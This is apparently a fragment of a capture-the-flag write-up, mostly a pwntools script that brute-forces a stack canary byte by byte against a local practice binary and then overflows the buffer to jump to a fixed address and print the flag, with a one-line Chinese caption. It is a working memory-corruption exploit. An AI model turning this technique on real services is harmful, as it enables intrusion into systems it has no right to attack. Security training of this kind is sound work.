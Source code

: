 exp:

```
from pwn import *
context.log_level = 'debug'
cn = process('./bin')
cn.recvuntil('welcome\n')
canary = '\x00'

#爆破cannary
for j in range(3):
	for i in range(0x100):
		cn.send('a'*100 + canary + chr(i))
		a = cn.recvuntil('welcome\n')
		if 'recv' in a:
			canary += chr(i)
			break

cn.sendline('a'*100 + canary + 'a'*12 + p32(0x0804864b))
flag = cn.recv()
cn.close()
log.success('flag is:' + flag)
```

跑呀跑呀跑呀~

{% asset_img 1.png%}
